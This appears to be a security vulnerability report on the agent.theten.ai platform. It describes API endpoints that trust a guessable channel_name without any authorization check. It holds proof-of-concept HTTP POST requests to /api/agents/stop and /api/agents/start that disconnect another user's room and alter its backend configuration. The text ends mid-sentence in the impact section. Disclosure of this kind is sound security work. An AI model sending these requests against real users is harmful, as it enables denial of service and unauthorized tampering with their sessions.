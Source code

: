 ### Summary
A large number of interfaces only determine user identity through the parameter channel_name without performing permission verification, resulting in a large number of unauthorized vulnerabilities
All interfaces have not undergone permission verification, ** Allowing attackers to close other people's connections and data based on the channel name **



We can regard https://agent.theten.ai/home as victim example  
Use two accounts to replicate this operation
### DETAIL
1. Victim login  

![image](https://github.com/user-attachments/assets/5dd3199b-16fe-4496-9482-d1827374bb24)
Notice The channel name 

2. Attackers send data packets (Assume attcker guess the right victim channel name[quiet easy]) 

![image](https://github.com/user-attachments/assets/f3190e3c-373c-4041-bcd1-47275d628ba7)
POC 
```
POST /api/agents/stop HTTP/2
Host: agent.theten.ai
Content-Length: 85
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Accept: application/json, text/plain, */*
Sec-Ch-Ua: "Chromium";v="129", "Not=A?Brand";v="8"
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Origin: https://agent.theten.ai
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://agent.theten.ai/home
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"request_id":"6182c335-2eb9-4f64-8c87-510b953d52b312","channel_name":"agora_02nq0h"}
```
The channel name can be traversed own By victim, and after this request is sent, the corresponding room will pause the connection

3. Users can reset the link properties in room by accessing the POST/app/agents/start interface
Note that there is no association between user_id and channel
![image](https://github.com/user-attachments/assets/abc831e8-e9f9-40a2-8454-84729ab5ccc3)
```
POST /api/agents/start HTTP/2
Host: agent.theten.ai
Content-Length: 178
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Accept: application/json, text/plain, */*
Sec-Ch-Ua: "Chromium";v="129", "Not=A?Brand";v="8"
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Origin: https://agent.theten.ai
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://agent.theten.ai/home
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"request_id":"094a98a1-ece7-4906-95c5-bc3a877932a7","channel_name":"agora_02nq0h","user_uid":119866,"graph_name":"camera.va.openai.azure","language":"zh-CN","voice_type":"male"}
```


4. We edited the graph_name as separate data, but it was not displayed on the user's frontend, but it did indeed change in the backend

![image](https://github.com/user-attachments/assets/8e37fdd6-647e-4bd8-9faa-a94bbd2eb893)  




#### impact
Being able to modify someone else's room configuration beyond their authority and creating DOS vulnerabilities in their use of the room,Besides
